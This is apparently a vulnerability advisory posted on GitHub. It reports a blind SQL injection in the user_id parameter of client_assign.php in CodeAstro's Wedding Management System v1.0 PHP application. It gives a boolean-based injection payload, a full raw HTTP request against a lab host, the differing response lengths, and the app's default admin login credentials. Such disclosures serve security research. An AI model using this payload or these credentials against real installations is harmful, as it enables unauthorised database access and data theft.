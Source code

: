 # WeddingManagement System v1.0 by codeastr.com has SQL injection

Author： k0xx

The password for the backend login account is: admin@mail.com/Password@123

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: /Wedding-Management/admin/client_assign.php?booking=31&user_id=

Vulnerability location: /Wedding-Management/admin/client_assign.php?booking=31&user_id=,id

[+] Payload: /Wedding-Management/admin/client_assign.php?booking=31&user_id=31%20and%20length(database())%20=8 // Leak place ---> user_id

Current database name: dbwedding,length is 9

```sql
GET /Wedding-Management/admin/client_assign.php?booking=31&user_id=31%20and%20length(database())%20=8 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

When length (database ()) = 8, Content-Length: 16359

![image](https://user-images.githubusercontent.com/54017627/167991710-c2539421-48e5-4028-8919-3b745591968e.png)

![image](https://user-images.githubusercontent.com/54017627/167991778-7e5b33a1-feea-48b9-a045-decc7adb9e1b.png)

When length (database ()) = 9, Content-Length: 15082

![image](https://user-images.githubusercontent.com/54017627/167991735-21cabfc8-1029-48d1-a990-fa00cf5974bd.png)

![image](https://user-images.githubusercontent.com/54017627/167991643-7d2f0810-02af-4c12-8441-1dfebaa882d5.png)
